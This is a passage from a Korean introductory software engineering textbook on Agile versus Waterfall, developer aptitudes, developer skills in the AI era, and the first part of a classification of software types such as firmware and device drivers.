

- 아파트 10층까지 콘크리트를 다 부었는데, 건축주가 갑자기 *"생각해 보니 엘리베이터 위치를 건물 반대편으로 옮기고 방을 3개 더 내어주세요"*라고 한다면 건물을 부수고 처음부터 다시 지어야 합니다. 이것이 과거의 개발 방식이었던 **폭포수(Waterfall) 모델**의 한계였습니다.
- 하지만 소프트웨어는 다릅니다. 사용자의 취향과 시장 트렌드는 하루가 다르게 변합니다. 현대의 훌륭한 엔지니어는 1년 뒤를 완벽히 예측하려 애쓰는 대신, **"언제든 기획이 바뀌어도 최소한의 비용으로 유연하게 코드를 수정할 수 있는 아키텍처"**를 만듭니다. 이것이 바로 오늘날 전 세계를 지배하는 **애자일(Agile)과 지속적 배포(CI/CD)**의 철학입니다.

---

### 4. 상세 비교표: 전통적 폭포수(Waterfall) vs 현대적 애자일(Agile)

| 비교 지표 | 폭포수(Waterfall) 모델 | 애자일(Agile / Scrum / DevOps) 모델 |
| :--- | :--- | :--- |
| **작업 방식** | 이전 단계가 100% 끝나야 다음 단계로 진행 (순차적) | 1~2주 단위의 짧은 주기(스프린트)로 기획-개발-배포를 반복 (반복적·점진적) |
| **요구사항 변경** | 초기에 확정하며, 중도 변경을 극도로 꺼림 (비용 폭증) | 개발 도중 요구사항이 바뀌는 것을 자연스러운 경쟁력으로 환영함 |
| **첫 출시 시점** | 모든 기능이 100% 완성된 프로젝트 막바지 (수개월~수년 소요) | 핵심 가치만 담은 최소 기능 제품(MVP)을 수 주 만에 조기 출시 |
| **테스트 시점** | 개발이 완전히 끝난 후 후반부 QA 단계에서 몰아서 진행 | 매 기능 구현 시마다 개발자가 테스트 코드를 짜고 자동 검증함 |
| **적합한 프로젝트** | 요구사항이 절대로 변하지 않는 공공/국방/우주항공 시스템 | 빠르게 시장의 반응을 검증해야 하는 스타트업, 웹/앱 서비스 |

---

### 5. 핵심 요약 (Summary Checklist)

- [x] 소프트웨어 개발은 **기획 -> 분석 -> 설계 -> 구현 -> 테스트 -> 배포 -> 유지보수**의 7단계 SDLC를 거칩니다.
- [x] 현대 소프트웨어 공학은 한 번에 완벽한 것을 만드는 것보다, **빠르게 배포하고 피드백을 받아 점진적으로 고도화하는 애자일(Agile) 방식**을 지향합니다.
- [x] 각 단계마다 코드뿐만 아니라 **PRD, ERD, API 명세서, 테스트 케이스, 모니터링 로그 등 정밀한 산출물**이 유기적으로 연결됩니다.

---

## 04 누가 소프트웨어 개발을 잘할 수 있을까요?

> "개발은 타고난 천재들의 전유물이 아닙니다.  
> 복잡함을 쪼갤 줄 아는 논리적 분해력, 끝까지 물고 늘어지는 끈기,  
> 그리고 기계 이면의 사람을 배려하는 소통 능력을 가진 사람이 가장 멀리 갑니다."

---

### 1. 개발자 적성에 대한 3대 오해와 진실

개발자라는 직업에 관심을 가질 때, 많은 사람들이 대중매체나 인터넷 커뮤니티가 만들어낸 거대한 편견과 마주합니다.



#### 오해 1: "수학 천재나 올림피아드 출신 영재들만 개발을 잘한다?"
- **진실**: AI 연구원이나 3D 물리 엔진 개발자처럼 고난도 수학이 필수적인 특수 분야도 있습니다. 그러나 대다수의 일반적인 웹, 앱, 백엔드, 비즈니스 소프트웨어 개발에서 필요한 수학은 '복잡한 미적분'이 아니라 **'초등학교 수준의 사칙연산과 중학교 수준의 명제 논리(참/거짓, AND/OR)'**입니다.
- 정작 중요한 것은 수학 시험 점수가 아니라, **"원인 A가 발생했기 때문에 결과 B가 도출된다"는 명확한 인과관계 추론 능력**입니다.

#### 오해 2: "하루 종일 어두운 방에서 말 한마디 없이 코딩만 하는 내향적 직업이다?"
- **진실**: 현실의 소프트웨어 개발은 철저한 **팀 스포츠(Team Sport)**입니다.
- 실무 개발자가 하루 8시간 중 순수하게 혼자 코드를 타이핑하는 시간은 평균 2~3시간에 불과합니다. 나머지 시간은 기획자와 기획의 모호함을 조율하고, 디자이너와 UI 인터랙션을 의논하며, 동료 엔지니어의 코드를 리뷰(Code Review)하고, 장애 발생 시 원인을 함께 규명하는 **치열한 커뮤니케이션의 연속**입니다.

#### 오해 3: "모든 최신 프레임워크와 API 문법을 암기하고 있어야 한다?"
- **진실**: IT 기술의 수명은 대단히 짧습니다. 3년 전에 유행하던 라이브러리가 오늘은 구시대의 유물이 되기도 합니다. 모든 것을 머릿속에 외우고 있는 개발자는 존재하지도 않으며, 그럴 필요도 없습니다.
- 진정으로 뛰어난 개발자는 문법을 달달 외우는 암기왕이 아니라, **"새로운 기술 문서(Documentation)를 두려움 없이 빠르게 읽어내고, 시스템의 동작 원리를 파악하여 적재적소에 응용하는 학습 민첩성(Learning Agility)"**을 가진 사람입니다.

---

### 2. 뛰어난 소프트웨어 엔지니어들의 5대 공통 핵심 역량

현업에서 소위 '일 잘하는 개발자'로 인정받는 사람들에게는 명확한 5가지 공통 분모가 관찰됩니다.



#### 1) 문제 분해 능력 (Problem Decomposition)
- 마주한 문제가 너무 거대해 보일 때 패닉에 빠지지 않고, **"이를 해결 가능한 가장 작은 단위(Sub-problems)로 어떻게 쪼갤 것인가?"**를 본능적으로 고민합니다.
- 예: "인스타그램을 만들어라"라는 거대한 과제를 [1. 사진 파일 업로드 API] -> [2. 이미지 리사이징 처리] -> [3. 피드 데이터베이스 조회] -> [4. 팔로우 관계 쿼리] 등으로 잘게 쪼개어 하나씩 정복해 나가는 능력(Divide and Conquer)입니다.

#### 2) 논리적 인과 추론력 (Logical Causality)
- 코드가 우연히 잘 돌아간다고 해서 그냥 넘어가지 않습니다. "왜 이 코드가 동작하는가?"를 증명할 수 있어야 합니다.
- 반대로 버그가 났을 때도 아무 코드나 이것저것 마구잡이로 바꿔보는 것이 아니라, 시스템의 상태를 추적하며 원인과 결과의 연결고리를 과학 수사관처럼 차근차근 좁혀나갑니다.

#### 3) 디버깅 끈기와 좌절 내성 (Grit & Resilience)
- 프로그래밍의 80%는 내가 만든 실수(버그)를 수습하는 과정입니다. 하루 종일 화면을 노려보았는데 세미콜론 하나, 변수명 오타 하나 때문에 안 돌아가는 날도 허다합니다.
- 이때 빨간 에러 메시지에 감정적으로 상처받지 않고, **"컴퓨터는 거짓말을 하지 않는다. 내가 어딘가 잘못 알려줬을 뿐이다. 반드시 원인을 찾아내겠다"**라며 끝까지 물고 늘어지는 지적 집요함(Grit)이 필요합니다.

#### 4) 지적 호기심과 '동작 원리' 집착 (Deep Curiosity)
- 겉으로 보기에 잘 돌아간다고 만족하지 않습니다. "내가 쓴 라이브러리는 내부에서 어떻게 돌아갈까?", "이 함수를 호출하면 메모리에서는 무슨 일이 벌어질까?"라며 한 겹 아래의 추상화 계층을 들여다보길 즐기는 호기심이 개발자를 주니어에서 시니어로 성장시키는 가장 강력한 엔진입니다.

#### 5) 명료한 커뮤니케이션 및 공감 능력 (Communication & Empathy)
- 내가 작성한 코드는 결국 다른 동료가 읽어야 합니다. 변수명 하나, 함수명 하나를 지을 때도 동료가 오해하지 않도록 배려하는 글쓰기 감각이 뛰어납니다.
- 기획자가 기술적 한계를 이해하지 못할 때 화를 내는 대신, 상대방의 비즈니스 언어로 풀어서 설명하고 현실적인 대안을 제시할 수 있는 공감 능력이 필수적입니다.

---

### 3. 현실 비유 및 실무 예시: "명탐정 셜록 홈즈와 시니어 디버거"

버그를 잡는 훌륭한 개발자의 모습은 범죄 현장을 조사하는 **명탐정 셜록 홈즈**와 놀랍도록 일치합니다.

> [!TIP]
> **셜록 홈즈의 격언**:  
> *"불가능한 것들을 모두 제외하고 남은 것은, 아무리 믿기 힘들지라도 진실일 수밖에 없다."*

- **초보 개발자의 버그 대응**:  
  화면에 에러가 뜨면 당황하여 인터넷에서 찾은 코드를 이것저것 복사해 붙여넣고 기도를 올립니다("제발 돌아가라!"). 우연히 돌아가더라도 왜 고쳐졌는지 본인도 모릅니다. 다음에 똑같은 버그가 나면 또다시 헤맵니다.
- **프로페셔널 개발자의 버그 대응 (명탐정의 방식)**:  
  1. **현장 보존**: 버그가 발생하는 정확한 조건과 입력값(재현 경로, Reproduce Step)을 확보합니다.
  2. **단서 수집**: 로그(Log)와 스택 트레이스(Stack Trace)를 확인하여 문제가 터진 정확한 시점과 메모리 상태를 관찰합니다.
  3. **가설 수립**: "DB 커넥션이 고갈되었거나, 외부 API 응답이 타임아웃 났을 것이다."
  4. **가설 검증 및 소거**: 하나씩 조건을 통제하며 용의 선상에서 배제합니다.
  5. **진인사대천명**: 마침내 단 하나의 확실한 원인을 지목하고, 최소한의 정확한 처방(Fix)을 내린 뒤 재발 방지를 위한 자동화 테스트 코드를 남깁니다.

---

### 4. 자가 진단 체크리스트: 나는 개발에 어울리는 사람일까?

다음 문항 중 본인에게 해당하는 항목이 많을수록, 당신은 소프트웨어 엔지니어로서 엄청난 잠재력을 가지고 있습니다.

- [ ] 어떤 기계나 가전제품을 샀을 때, 설명서를 읽거나 분해해서 내부 원리를 파악해 보는 것이 재미있다.
- [ ] 일상생활에서 비효율적이거나 반복적인 수작업을 보면 자동화하거나 개선하고 싶어 견딜 수 없다.
- [ ] 복잡한 퍼즐, 스도쿠, 추리 소설, 레고 조립처럼 규칙 안에서 논리적으로 답을 찾아가는 과정을 즐긴다.
- [ ] 게임을 하더라도 단순 플레이를 넘어 게임 내 시스템 규칙, 확률 공식, 최적의 공략법(메타)을 파고드는 편이다.
- [ ] 풀리지 않는 난제를 만났을 때 쉽게 포기하기보다, 오기가 생겨서 몇 시간이고 붙잡고 늘어지는 기질이 있다.
- [ ] 내가 알고 있는 복잡한 지식을 다른 사람의 눈높이에 맞추어 이해하기 쉽게 설명해 주는 데서 보람을 느낀다.

---

### 5. 핵심 요약 (Summary Checklist)

- [x] 개발자에게 가장 필요한 것은 고난도 수학 실력이 아니라 **논리적 사고력과 문제 분해 능력**입니다.
- [x] 소프트웨어 개발은 혼자 하는 외로운 작업이 아니라, 동료들과 끊임없이 교류하는 **협업과 소통의 장**입니다.
- [x] 에러를 두려워하지 않고 원인을 끝까지 추적하는 **디버깅 끈기와 시스템의 내부를 알고 싶어 하는 지적 호기심**이 성패를 가릅니다.

---

## (+) AI시대, 개발자에게 필요한 역량은 무엇인가요?

> "AI가 코드를 대신 짜주는 시대, 개발자는 사라지는 것이 아닙니다.  
> 코드를 한 줄 한 줄 직접 벽돌 쌓듯 치던 '시공 인부'에서,  
> 전체 시스템의 뼈대를 세우고 AI의 결과물을 엄격하게 감리하는 '총괄 건축가'로 격상되는 것입니다."

---

### 1. 패러다임의 대전환: AI 코딩 혁명과 개발자의 위상 변화

GitHub Copilot, ChatGPT, Claude 등 거대언어모델(LLM) 기반의 코딩 도구가 등장하면서 소프트웨어 개발 현장은 상전벽해의 변화를 맞이했습니다. 이제 웬만한 알고리즘 구현, 반복적인 보일러플레이트 코드 작성, 정규표현식 작성, 테스트 코드 생성 등은 AI가 인간보다 수십 배 빠른 속도로 처리해 냅니다.

일각에서는 *"이제 누구나 AI에게 말만 하면 프로그램이 만들어지니 개발자는 필요 없지 않은가?"*라는 성급한 전망을 내놓기도 합니다. 그러나 소프트웨어 공학의 역사를 돌이켜보면 이는 기술 혁신의 본질을 오해한 것입니다.

- 과거 천공 카드(Punch Card) 시절에서 어셈블리어가 나왔을 때도 프로그래머가 사라진다고 했습니다.
- 어셈블리어에서 C언어와 같은 고수준 언어가 나왔을 때도 마찬가지였습니다.
- 하지만 도구가 발전하여 인간을 단순 노동에서 해방시킬 때마다, 인류가 요구하는 소프트웨어의 규모와 복잡성은 기하급수적으로 폭발했고 소프트웨어 엔지니어의 몸값과 중요성은 오히려 더욱 높아졌습니다.


---

### 2. AI 시대 개발자의 4대 필수 핵심 역량

AI라는 초강력 엔진을 장착한 현대의 개발자가 갖추어야 할 차별화된 핵심 무기는 다음 네 가지로 요약됩니다.



#### 역량 1: AI 도구 오케스트레이션 및 프롬프트/컨텍스트 엔지니어링 (Prompt & Context Engineering)
- AI에게 단순히 *"게시판 만들어줘"*라고 요청하는 사람은 좋은 결과를 얻을 수 없습니다.
- 뛰어난 개발자는 AI에게 **정밀한 컨텍스트(맥락)**를 제공합니다:
  - *"우리는 Spring Boot 3.2와 Java 21 가상 스레드를 사용 중이야. 사용자 트래픽은 초당 3,000건이고, 데이터베이스는 PostgreSQL이야. 조회 성능을 위해 Redis 캐시를 Look-aside 패턴으로 적용하고, 캐시 미스 시 Cache Stampede 현상을 방지할 수 있는 분산 락(Redisson)을 적용한 게시글 조회 서비스를 작성해 줘. 발생 가능한 동시성 엣지 케이스 3가지와 이에 대한 단위 테스트 코드도 함께 작성해."*
- 시스템의 제약 조건, 아키텍처 패턴, 코딩 컨벤션, 비즈니스 룰을 정교하게 주입하여 AI가 최적의 코드를 뱉어낼 수 있도록 유도하는 지휘자(Orchestrator)의 역량입니다.

#### 역량 2: 시스템 아키텍처 설계 및 비즈니스 도메인 심층 이해
- AI는 주어진 코드 조각을 작성하는 데는 천재적이지만, **"우리 회사의 비즈니스 모델에 맞춰 어떤 데이터베이스를 선택하고, 트래픽을 어떻게 분산하며, 서비스 간의 결합도(Coupling)를 어떻게 낮출 것인가?"**와 같은 거시적인 시스템 아키텍처를 결정하지는 못합니다.
- 복잡하게 얽힌 회사의 물류 시스템, 복잡한 금융 규제, 세무 회계 로직 등 **현실의 비즈니스 도메인을 깊이 이해하고 이를 구조화하는 능력**은 오직 인간 개발자만이 해낼 수 있는 영역입니다.

#### 역량 3: AI 생성 코드의 보안, 엣지 케이스, 버그 철저 검증 (Verification & Audit)
- AI는 매우 당당하고 그럴듯하게 틀린 코드(환각, Hallucination)를 작성합니다.
- AI가 짜준 코드 속에 숨어 있는 **보안 취약점(SQL Injection, XSS, 잘못된 권한 인가), 메모리 누수, 멀티스레드 동시성 충돌, 대규모 트래픽에서의 N+1 쿼리 문제**를 날카롭게 짚어내고 수정할 수 있는 비판적 검증(Code Review) 능력이 필수적입니다.
- AI가 작성한 코드를 맹신하고 복사-붙여넣기(Ctrl+C, Ctrl+V)만 하는 개발자는 시한폭탄을 심는 사람과 다름없습니다. 코드의 모든 줄에 대해 책임을 지는 것은 여전히 인간 개발자입니다.

#### 역량 4: 시대를 초월하는 불변의 CS 기초 지식 (CS Fundamentals)
- 역설적이게도 AI 시대가 될수록 **운영체제, 네트워크, 컴퓨터구조, 알고리즘, 데이터베이스**라는 4대 전공 기초 지식의 중요성은 더욱 강력해집니다.
- 왜일까요? **AI가 내놓은 답이 맞는지 틀렸는지 판단할 수 있는 유일한 기준선(Ground Truth)이 바로 기초 지식이기 때문**입니다.
- 시스템 장애가 발생했을 때 AI는 *"서버 로그를 확인하세요"*라는 교과서적인 답변만 반복할 수 있습니다. 이때 메모리 덤프를 열어 프로세스 상태를 분석하고, 네트워크 패킷 캡처를 분석하여 TCP 재전송 지연을 밝혀내며, 데이터베이스 데드락 그래프를 해석해 시스템을 살려내는 것은 밑바닥 기초가 탄탄한 엔지니어의 몫입니다.

---

### 3. 현실 비유: "초보 조수 100명을 지휘하는 특급 오케스트라 마에스트로"

AI 코딩 어시스턴트를 다루는 개발자의 모습은, 손은 엄청나게 빠르지만 경험이 부족하고 가끔 엉뚱한 실수를 저지르는 **수습 조수 100명을 거느린 오케스트라 지휘자(Maestro)**와 같습니다.



- 조수(AI)는 악보를 복사하고 음표를 그리는 속도가 인간보다 100배 빠릅니다.
- 하지만 전체 교향곡이 아름다운 화음을 이루고 있는지(시스템 무결성), 악보에 치명적인 불협화음(보안 버그)이 숨어 있는지, 관객(사용자)에게 감동을 주는 음악인지(비즈니스 가치)를 판별하고 지휘봉을 휘두르는 주체는 오직 마에스트로(인간 개발자)뿐입니다.

---

### 4. 상세 비교표: 레거시 개발자 vs AI-Augmented (AI 증강형) 현대 개발자

| 비교 기준 | 레거시 개발자 (과거 패러다임) | AI-Augmented 현대 개발자 (새로운 표준) |
| :--- | :--- | :--- |
| **코드 작성 방식** | 빈 화면에서 함수와 문법을 한 글자씩 수작업 타이핑 | AI에게 아키텍처와 컨텍스트를 제시하고 초안을 빠르게 생성 |
| **시간 배분** | 문법 타이핑과 단순 디버깅에 70%, 설계에 30% | 시스템 설계와 비즈니스 분석에 60%, AI 코드 검증에 40% |
| **생산성** | 하루 수십~수백 줄의 제한된 코드 생산 | AI 오케스트레이션을 통해 5~10배 이상의 빠른 프로토타이핑 및 구현 |
| **지식의 활용** | 라이브러리 문법과 파라미터 순서를 외우는 데 집중 | 시스템 구조, CS 기본 원리, 데이터 흐름을 꿰뚫어 보는 데 집중 |
| **에러 대응** | 구글링과 스택오버플로우 검색에 많은 시간 소모 | AI에게 에러 컨텍스트를 주입해 1차 원인을 분석시키고 본질을 검증 |
| **핵심 경쟁력** | "나는 이 프레임워크 문법을 많이 알고 있다" | "나는 AI를 능숙하게 지휘하여 견고하고 안전한 비즈니스 제품을 완성한다" |

---

### 5. 핵심 요약 (Summary Checklist)

- [x] AI는 개발자를 대체하는 것이 아니라, **단순 코딩 노동에서 해방시켜 상위 레벨의 엔지니어링에 집중하게 만듭니다.**
- [x] 현대 개발자의 필수 무기는 **프롬프트/컨텍스트 엔지니어링, 시스템 아키텍처 설계, 비즈니스 도메인 이해력**입니다.
- [x] AI가 생성한 코드의 환각과 보안 결함을 걸러내는 **비판적 검증 능력과 탄탄한 CS 기초 지식**이야말로 AI 시대에 가장 강력한 차별점이 됩니다.

---

## 에필로그: 첫 줄의 코드를 작성할 당신을 응원하며

소프트웨어 개발의 여정은 마치 거대하고 신비로운 미지의 대륙을 탐험하는 것과 같습니다. 처음에는 쏟아지는 전공 용어와 생소한 개념들, 그리고 화면을 가득 채우는 에러 메시지 앞에서 막막함과 두려움을 느낄지도 모릅니다.

하지만 기억하십시오. 세상의 모든 위대한 소프트웨어도 처음에는 화면에 `"Hello, World!"`라는 단 한 줄의 글자를 띄우는 아주 작고 소박한 순간에서 시작되었습니다.

컴퓨터의 차가운 실리콘 칩 이면에 숨겨진 논리를 이해하고, 복잡한 현실의 문제를 기술로 아름답게 풀어내어 누군가의 삶을 더 편리하게 바꾸어 나가는 일. 그것이 바로 소프트웨어 엔지니어가 누릴 수 있는 가장 가슴 뛰는 특권입니다.

이제 당신만의 멋진 시스템을 구축하기 위한 위대한 첫걸음을 힘차게 내딛으시길 바랍니다!


---

# PART 02 소프트웨어의 종류와 특징

> **"컴퓨터는 단지 믿을 수 없을 정도로 빠르고 정확한 바보일 뿐이다. 그 바보에게 생명과 지능을 불어넣는 유일한 마법이 바로 소프트웨어다."**  
> — 컴퓨터 공학의 오랜 격언

---

## 들어가며: 소프트웨어는 현대 문명의 보이지 않는 뼈대다

현대 사회에서 인간의 일상은 단 1초도 소프트웨어(Software)의 손길을 벗어나지 않습니다. 아침에 눈을 뜨며 스마트폰의 알람을 끄는 순간부터, 지하철 개찰구에 교통카드를 태그하고, 출근길에 지도 앱으로 최적 경로를 찾으며, 회사에서 클라우드 문서로 협업하고, 퇴근 후 OTT 서비스로 영화를 스트리밍하는 모든 순간에 소프트웨어가 동작하고 있습니다.

하지만 우리가 화면을 통해 손가락으로 터치하거나 마우스로 클릭하는 화려한 그래픽 인터페이스는 거대한 빙산의 일각에 불과합니다. 그 밑바닥에는 실리콘 반도체 소자를 전자기적으로 제어하는 극미세한 펌웨어부터, 수십억 줄의 코드를 조율하는 운영체제 커널, 전 세계에 흩어진 서버들을 실시간으로 연결하는 분산 미들웨어, 그리고 브라우저 상에서 초당 60프레임으로 화면을 렌더링하는 현대적 웹 엔진에 이르기까지 수많은 계층의 소프트웨어가 톱니바퀴처럼 정교하게 맞물려 돌아가고 있습니다.

소프트웨어 엔지니어나 아키텍트, 혹은 IT 기술을 깊이 있게 이해하고자 하는 사람에게 가장 먼저 요구되는 소양은 무엇일까요? 바로 **"내가 지금 작성하고 다루는 코드가 컴퓨터 시스템의 어느 계층에 위치하며, 어떤 형태의 소프트웨어로 동작하는가?"**를 입체적으로 조망하는 거시적 안목입니다.

본 파트에서는 현대 컴퓨터와 디지털 세상을 지탱하는 소프트웨어의 다채로운 분류와 본질을 탐구합니다. 시스템의 심장부에서 하드웨어를 다루는 시스템 소프트웨어부터, 사용자의 일상과 비즈니스를 혁신하는 응용 소프트웨어, 그리고 모바일과 웹 시대를 관통하는 네이티브 앱·크로스 플랫폼·하이브리드 앱·웹 애플리케이션의 아키텍처적 차이점을 완벽하게 분해해 보겠습니다.

---

## 01 소프트웨어의 종류: 컴퓨터의 영혼을 구성하는 5가지 계층

소프트웨어는 물리적 실체(Hardware)가 없는 논리적 프로그램의 집합이지만, 그 역할과 하드웨어와의 물리적 거리에 따라 매우 엄격한 위계질서(Hierarchy)를 형성하고 있습니다. 이 계층을 이해하는 것은 소프트웨어 공학의 첫걸음입니다.



---

### 1. 시스템 소프트웨어 (System Software)

시스템 소프트웨어는 **"하드웨어가 정상적으로 부팅되고, 자원을 안전하게 배분하며, 다른 응용 소프트웨어들이 안심하고 실행될 수 있는 실행 환경(Runtime Environment)을 제공하는 기반 소프트웨어"**입니다. 사용자가 직접 문서를 작성하거나 게임을 하기 위해 시스템 소프트웨어를 켜지는 않지만, 시스템 소프트웨어가 없으면 어떤 고성능 컴퓨터도 그저 뜨거운 철판과 실리콘 덩어리에 불과합니다.

시스템 소프트웨어는 내부적으로 크게 **펌웨어**, **장치 드라이버**, **운영체제**의 세 가지 단계로 세분화됩니다.

#### (1) 펌웨어 (Firmware): 하드웨어에 각인된 원초적 생명
* **정의**: 하드웨어 내부의 비휘발성 메모리(ROM, 플래시 메모리)에 영구적이거나 준영구적으로 저장되어 하드웨어를 직접 제어하는 초저수준(Low-level) 소프트웨어입니다.
* **역할 및 특징**:
  * 컴퓨터 전원 버튼을 누르는 순간 가장 먼저 실행되는 소프트웨어가 바로 펌웨어인 **BIOS(Basic Input/Output System)** 또는 최신 규격인 **UEFI(Unified Extensible Firmware Interface)**입니다.
  * CPU, 메모리, 그래픽 카드 등 필수 부품이 올바르게 장착되었는지 자가 진단(POST: Power-On Self-Test)을 수행한 후, 보조기억장치에서 운영체제 부트로더(Bootloader)를 찾아 메모리에 적재하는 역할을 맡습니다.
  * 오늘날에는 마우스, 키보드, 공유기, 가전제품, 무선 이어폰 등 단일 마이크로컨트롤러(MCU)가 탑재된 거의 모든 전자기기에 펌웨어가 탑재되어 있습니다.
  * 펌웨어 업데이트를 '소프트웨어 패치'라고 부르지 않고 '펌웨어 플래싱(Flashing)'이라고 부르는 이유는, 디스크 파일 시스템에 단순히 파일을 복사하는 것이 아니라 하드웨어 ROM 칩의 물리적 셀에 데이터를 다시 굽는 과정이기 때문입니다.

#### (2) 장치 드라이버 (Device Driver): 운영체제와 하드웨어 사이의 통역사
* **정의**: 특정 하드웨어 장치(그래픽 카드, 사운드 카드, 프린터, 웹캠, 네트워크 카드 등)와 운영체제 사이에서 명령과 데이터를 변환해 주는 전용 중계 소프트웨어입니다.
* **존재 이유**:
  * 전 세계에는 수천 개의 제조사가 만든 수만 가지 규격의 하드웨어가 존재합니다. 운영체제(예: Windows나 Linux)를 만드는 개발팀이 시중에 존재하는 모든 그래픽 칩셋이나 마우스 센서의 전기적 레지스터 신호를 코드에 직접 하드코딩해 넣는 것은 불가능합니다.
  * 따라서 운영체제는 표준화된 추상 인터페이스(API)를 정의하고, 실제 하드웨어를 만든 제조사(NVIDIA, Realtek, Samsung 등)가 그 규격에 맞춰 명령어를 변환하는 드라이버 코드를 작성하여 제공하도록 합니다.
* **동작 특성**:
  * 대부분의 드라이버는 고도의 실행 속도와 하드웨어 직접 제어가 필요하므로 운영체제의 가장 내밀한 핵심 영역인 **커널 모드(Kernel Mode)**에서 실행됩니다.
